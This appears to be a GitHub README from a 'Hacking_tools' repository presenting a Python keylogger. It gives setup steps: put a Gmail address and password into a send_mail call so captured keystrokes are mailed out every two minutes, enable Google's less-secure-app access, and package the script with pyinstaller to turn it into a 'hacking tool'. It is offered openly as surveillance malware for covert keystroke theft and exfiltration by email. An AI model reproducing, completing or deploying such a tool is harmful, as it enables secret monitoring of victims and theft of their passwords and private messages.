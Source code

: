 # Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Internet and Python IDEs   Ex: Pycharm, PyDev, IDLE, Spyder etc.. 


[+] Before executing keylogger.py make sure that you have provided your proper emailid and password in the program that shown below. 

self.send_mail("Your email id ", "Your Password", self.log)

For Ex: self.send_mail("arnavkumar6360@gmail.com", "abc123def456", self.log)

Timer is set to 120s. So at every 2min u will get a mail. For better result please set timer to high. ( timer = threading.Timer(120, self.report) )

[+] Also enable the Less secure app access of your google account to receive the mail send by the program.

Link to enable Less secure app access https://myaccount.google.com/lesssecureapps


[+] Note: Its just a program, to convert this into a hacking tool we need to package this program by pyinstaller.exe. If u want to know more about this please contact through this mail arnavkumar6360@gmail.com
